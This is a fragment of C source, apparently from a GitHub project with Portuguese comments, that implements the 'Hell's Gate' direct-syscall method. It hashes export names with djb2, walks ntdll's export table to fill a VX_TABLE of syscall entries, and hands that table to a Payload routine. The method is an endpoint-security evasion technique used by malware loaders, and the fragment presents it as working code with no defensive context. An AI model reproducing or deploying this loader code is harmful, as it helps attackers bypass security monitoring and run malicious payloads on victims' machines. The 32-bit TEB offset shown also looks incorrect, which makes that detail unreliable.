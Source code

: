 ```c
	Table.NtWaitForSingleObject.dwHash = 0xc6a2fa174e551bcb;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWaitForSingleObject))
		return 0x1;

	printf("[+]VX_TABLE= %p\n", Table);
	
	Payload(&Table);
	return 0x00;
}

PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64
	return (PTEB)__readgsqword(0x30);
#else
	return (PTEB)__readfsdword(0x16);
#endif
}

DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x7734773477347734;
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}

BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory) {
	// Acessa o DOS Header
	PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pModuleBase;
	if (pImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
		return FALSE;
	}

	// Acessa o NT Header
	PIMAGE_NT_HEADERS pImageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)pModuleBase + pImageDosHeader->e_lfanew);
	if (pImageNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
		return FALSE;
	}

	// Acessa a EAT
	*ppImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)pModuleBase + pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress);
	return TRUE;
}

BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
	PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
	PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
	PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);

	for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
		PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
		PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];

```